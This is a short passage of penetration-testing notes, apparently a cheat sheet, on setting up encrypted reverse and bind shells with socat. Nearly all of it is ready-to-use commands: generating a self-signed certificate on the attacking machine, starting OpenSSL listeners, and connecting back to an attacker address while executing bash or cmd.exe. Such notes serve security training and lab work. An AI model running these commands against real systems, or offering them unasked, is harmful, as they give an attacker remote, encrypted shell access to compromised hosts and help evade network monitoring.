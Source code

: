 We first need to generate a certificate in order to use encrypted shells. This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. This is easiest to do on our attacking machine:

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

We then need to merge the two created files into a single `.pem` file:

```
cat shell.key shell.crt > shell.pem
```

- **_Reverse Shell_**
Now, when we set up our reverse shell listener, we use:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

socat OPENSSL-LISTEN:53 FILE:`tty`,cert=encrypt.pem,verify=0,raw,echo=0
```

To connect back, we would use:

```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash

socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


- **_Bind Shell_**
Target:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```